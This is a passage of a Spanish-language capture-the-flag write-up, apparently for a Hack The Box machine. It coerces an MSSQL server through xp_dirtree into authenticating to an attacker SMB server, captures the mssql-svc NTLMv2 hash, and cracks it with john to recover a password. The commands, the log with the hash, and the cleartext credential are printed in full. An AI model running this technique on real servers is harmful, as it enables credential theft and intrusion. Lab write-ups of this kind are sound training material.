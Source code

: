 
Nos `creamos` un `servidor smb`

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

`Hacemos` una `petición` a un `recurso` de `nuestra máquina `

```
SQL (QUERIER\reporting  reporting@volume)> xp_dirtree \\10.10.16.23\smbFolder\test
subdirectory   depth   file   
------------   -----   ---- 
```

`Obtenemos` el hash `NTLMV2` del usuario `mssql-svc`

```
# impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.12.0.dev1+20240816.161125.5d881ece - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
08/24/2024 02:26:24 PM: INFO: Config file parsed
08/24/2024 02:26:27 PM: INFO: Incoming connection (10.129.255.12,49676)
08/24/2024 02:26:27 PM: INFO: AUTHENTICATE_MESSAGE (QUERIER\mssql-svc,QUERIER)
08/24/2024 02:26:27 PM: INFO: User QUERIER\mssql-svc authenticated successfully
08/24/2024 02:26:27 PM: INFO: mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:6f7d92da5c497d4dc478f2d9820a5467:0101000000000000809b28d720f6da01714567ea86b566a700000000010010005400710052004700540069006a004500030010005400710052004700540069006a0045000200100077007a006e0064006d006200410051000400100077007a006e0064006d0062004100510007000800809b28d720f6da01060004000200000008003000300000000000000000000000003000008cb280c24fe8618b3d55ffd1d66821547a1a40f659307e2a2169e553d92b53100a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e0032003300000000000000000000000000
08/24/2024 02:26:27 PM: INFO: Connecting Share(1:smbFolder)
08/24/2024 02:26:27 PM: INFO: AUTHENTICATE_MESSAGE (\,QUERIER)
08/24/2024 02:26:27 PM: INFO: User QUERIER\ authenticated successfully
08/24/2024 02:26:27 PM: INFO: :::00::aaaaaaaaaaaaaaaa
08/24/2024 02:26:40 PM: INFO: Disconnecting Share(1:smbFolder)
08/24/2024 02:26:40 PM: INFO: Closing down connection (10.129.255.12,49676)
08/24/2024 02:26:40 PM: INFO: Remaining connections []
```

El hash `NTLMV2` lo debemos `meter` en un `archivo`

```
mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:6f7d92da5c497d4dc478f2d9820a5467:0101000000000000809b28d720f6da01714567ea86b566a700000000010010005400710052004700540069006a004500030010005400710052004700540069006a0045000200100077007a006e0064006d006200410051000400100077007a006e0064006d0062004100510007000800809b28d720f6da01060004000200000008003000300000000000000000000000003000008cb280c24fe8618b3d55ffd1d66821547a1a40f659307e2a2169e553d92b53100a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e0032003300000000000000000000000000
```

`Crackeamos` el `hash` con `john` y `obtenemos` unas `credenciales` válidas `mssql-svc:corporate568`

